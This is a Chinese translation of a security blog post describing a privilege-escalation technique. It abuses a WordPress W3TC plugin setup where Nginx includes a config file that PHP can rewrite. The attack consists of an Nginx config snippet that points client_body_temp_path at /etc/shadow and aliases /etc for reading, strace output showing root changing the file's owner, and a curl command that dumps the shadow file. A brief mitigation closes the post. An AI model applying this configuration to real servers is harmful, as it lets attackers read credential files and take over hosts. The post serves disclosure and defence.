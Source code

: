 
# 【技术分享】通过W3TC与Nginx获取服务器root权限


                                阅读量   
                                **107150**
                            
                        |
                        
                                                                                                                                    ![](./img/85721/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



##### 译文声明

本文是翻译文章，文章原作者，文章来源：tarq.io
                                <br>原文地址：[https://blog.tarq.io/root-your-box-with-w3tc-and-nginx/](https://blog.tarq.io/root-your-box-with-w3tc-and-nginx/)

译文仅供参考，具体内容表达以及含义原文为准



[![](./img/85721/t017bdbf0a7cfeea2ba.jpg)](./img/85721/t017bdbf0a7cfeea2ba.jpg)

作者：[360U2671379114](http://bobao.360.cn/member/contribute?uid=2671379114)

稿费：50RMB

投稿方式：发送邮件至linwei#360.cn，或登陆网页版在线投稿

<br>

在人见人爱的WordPress缓存插件W3TC与Nignx结合时，有些教程告诉你要在Nginx的配置文件中加入像这样的东西：

```
location / {  
    include /var/www/wordpress/nginx.conf;
}
```

当我写这篇博客的时候，这条建议现在已经成为了关于“W3TC Nginx”搜索条目的第二大热门

如果你还不知道这个配置文件是可以被W3TC（以及加上扩展的PHP）重写的，这条建议的作用就是让W3TC能够重载Nginx的配置

现在我们假设攻击者已经攻破了你的WordPress站点，并且拥有了读写www-data的权限——这在Debian和其他一些Linux发行版上是PHP5-FPM默认的

攻击者就能够灵活的去运用一些Nginx配置选项，并且把W3TC的配置改成这样：

```
client_body_temp_path /etc/shadow;
# optional but more fun :)
location /wat {  
        alias /etc;
}
```

这告诉Nginx目前你使用/etc/shadow路径来存储缓存文件。显然，这并非一个文件夹，但让我们看看下次重启Nginx时会发生什么

```
# strace -e trace=chmod,chown -f nginx
chown("/etc/shadow", 33, 4294967295)    = 0  
+++ exited with 0 +++
```

显然，任何文件或文件夹一旦被攻击者写入到上述的配置文件，它的所有者都会被更改为www-data。要注意，这个现象是发生在Root用户的主进程中的，因此这对所有文件都是一样的

我们可以以这种方法通过PHP来读取到/etc/shadow或者主机的任意文件，而对于读取上述的shadow文件，我们还可以使用curl

```
$ curl -s http://localhost/wat/shadow | head
root:$6$IPIbhbCwb7gHQC&lt;SNIP&gt;:0:99999:7:::  
daemon:*:17074:0:99999:7:::  
bin:*:17074:0:99999:7:::  
sys:*:17074:0:99999:7:::  
sync:*:17074:0:99999:7:::  
games:*:17074:0:99999:7:::  
man:*:17074:0:99999:7:::  
lp:*:17074:0:99999:7:::  
mail:*:17074:0:99999:7:::  
news:*:17074:0:99999:7:::  
$ curl -s http://localhost/wat/shadow | head
root:$6$IPIbhbCwb7gHQC&lt;SNIP&gt;:0:99999:7:::  
daemon:*:17074:0:99999:7:::  
bin:*:17074:0:99999:7:::  
sys:*:17074:0:99999:7:::  
sync:*:17074:0:99999:7:::  
games:*:17074:0:99999:7:::  
man:*:17074:0:99999:7:::  
lp:*:17074:0:99999:7:::  
mail:*:17074:0:99999:7:::  
news:*:17074:0:99999:7:::
```

于是现在系统上所有的文件夹或文件所有权都能被更改为www-data了，并且攻击者获得了读写权限。而通过非暴力破解shadow文件手段来获取Root权限的shell的方式，则留给读者去练习和思考。

**<br>**

**关于降低危害的方法**

永远不要让PHP来替你管理Web服务器配置！
